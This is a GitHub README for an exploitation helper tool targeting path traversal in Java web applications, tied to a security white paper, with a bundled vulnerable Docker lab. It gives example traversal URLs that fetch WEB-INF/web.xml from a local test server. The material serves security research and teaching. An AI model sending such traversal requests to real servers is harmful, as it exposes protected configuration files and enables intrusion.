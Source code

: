 ### WebXMLExp.py

Tool for helping in the exploitation of path traversal vulnerabilities in Java web applications.

This tool is referenced in the Invicti Security white paper [Exploiting path traversal vulnerabilities in Java web applications](https://www.invicti.com/white-papers/exploiting-path-traversal-vulnerabilities-java-web-applications-technical-paper/).

## Install

Python3 is required for this tool.

Run the following command:
```
pip install -r requirements.txt
```
## Usage:

After installation provide an exploit URL like so:
```
usage: python WebXMLExp.py <url_with_web_xml_exploit_or_inject_here_marker>
```

The results (files that were downloaded) are available in the **results** folder.

### Examples

```
python WebXMLExp.py "http://127.0.0.1:8082/vulnerable/download.servlet?filename=WEB-INF/web.xml"
python WebXMLExp.py "http://127.0.0.1:8082/vulnerable/download.servlet?filename=<INJECT-HERE>"
```

## Vulnerable web application docker image

A web application vulnerable to a path traversal vulnerability is provided in the **docker** folder.

To start, enter into the **docker** folder and run:

```
docker-compose up
```

The application is accessible at  **http://127.0.0.1:8082/vulnerable/**.

To exploit the the path traversal vulnerability visit:
http://127.0.0.1:8082/vulnerable/download.servlet?filename=WEB-INF/web.xml
